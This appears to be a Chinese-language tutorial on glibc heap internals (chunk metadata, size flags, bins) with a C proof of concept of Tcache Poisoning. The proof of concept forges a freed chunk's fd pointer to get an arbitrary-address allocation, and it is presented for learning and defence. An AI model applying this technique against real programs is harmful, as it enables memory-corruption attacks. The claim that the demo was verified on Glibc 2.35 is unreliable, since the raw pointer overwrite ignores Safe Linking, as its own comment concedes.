

在现代 Linux 二进制漏洞挖掘与 CTF Pwn 挑战中，堆内存管理机制始终是最具深度与精妙度的研究方向之一。相较于栈溢出直观的控制流劫持，堆利用往往涉及复杂的数据结构状态转移与指针链编织。

本文将从 Glibc 堆分配器（ptmalloc）的核心数据结构切入，逐层剖析 Chunk 分配与回收机制，并复现经典的 Tcache 污染攻击。

> 提示：本文所有实验与内存验证均在 Ubuntu 22.04 LTS (Glibc 2.35) 环境下进行，测试用例仅供学习与安全研究参考。

## 1. 堆 Chunk 核心元数据与内存布局

在 ptmalloc 体系中，用户请求的堆内存最终被封装为 `malloc_chunk` 结构。为了极致的空间利用率，Chunk 的元数据与前后相邻内存块紧密复用。

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* 前一个 Chunk 的大小（若前块为空闲） */
  INTERNAL_SIZE_T      mchunk_size;       /* 当前 Chunk 的大小及状态标志位 (A|M|P) */

  struct malloc_chunk* fd;                /* 双向链表前向指针 (仅在空闲状态有效) */
  struct malloc_chunk* bk;                /* 双向链表后向指针 (仅在空闲状态有效) */

  struct malloc_chunk* fd_nextsize;       /* 大块 Bin 专用指针 */
  struct malloc_chunk* bk_nextsize;
};
```

### 状态标志位解析

在 64 位体系下，由于堆内存按 16 字节对齐，`mchunk_size` 的低 3 位被用作状态标志位：
- **A (0x4, NON_MAIN_ARENA)**：是否来自非主分配区；
- **M (0x2, IS_MMAPPED)**：是否通过 `mmap` 直接分配；
- **P (0x1, PREV_INUSE)**：前一个物理相邻的 Chunk 是否正在使用。

堆 Chunk 的对齐计算公式可通过如下数学公式表达：

$$
\text{ChunkSize}(req) = \text{align\_up}(req + 2 \times \text{SIZE\_SZ}, 2 \times \text{SIZE\_SZ})
$$

其中在 64 位系统下 $\text{SIZE\_SZ} = 8$，对齐粒度为 $16$ 字节。

## 2. 堆管理状态流转

当堆块被 `free()` 释放后，分配器并不会立刻归还给操作系统内核，而是按照尺寸归入不同层级的 Bin 缓存池中：



## 3. Tcache Poisoning 攻击构造

自 Glibc 2.26 引入 Thread Local Cache (Tcache) 以来，堆分配的性能大幅提升，但同时也引入了单链表 LIFO（后进先出）结构。在未开启安全保护（如 Safe Linking 指针混淆）或获得堆基址泄漏的场景下，覆盖 `fd` 指针即可实现任意地址写。

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main() {
    printf("[*] 演示 Tcache 污染分配目标栈内存\n");

    uint64_t target_var = 0xdeadbeef;
    printf("[+] 目标变量地址: %p, 初始值: 0x%lx\n", &target_var, target_var);

    // 1. 分配两个相同大小的堆块
    char *a = malloc(0x30);
    char *b = malloc(0x30);

    // 2. 释放堆块，进入 Tcache Bin
    free(a);
    free(b);

    // 3. 模拟 Use-After-Free 漏洞篡改 b 的 fd 指针
    // 在 Glibc 2.32+ 需注意指针保护混淆解码
    *(uint64_t *)b = (uint64_t)&target_var;

    // 4. 连续申请两次，第二次将直接返回目标变量所在的内存
    char *c = malloc(0x30);
    uint64_t *d = (uint64_t *)malloc(0x30);

    printf("[+] 劫持后分配地址: %p\n", d);
    *d = 0x1337c0de;

    printf("[*] 目标变量被修改为: 0x%lx\n", target_var);
    return 0;
}
```

## 4. 总结与防御演进

随着 Glibc 版本的不断演进，安全防护机制逐步筑牢：
1. **Safe Linking (`PROTECT_PTR`)**：对单链表指针采用 ASLR 随机基址进行位异或混淆；
2. **Double Free 计数检测**：在 Tcache 条目中维护引用计数与 key 字段；
3. **Alignment 校验**：严格检查返回 Chunk 的 16 字节对齐合法性。

在安全攻防中，理解底层分配器对内存边界的每一次权衡，是构筑稳固防御工事的基石。
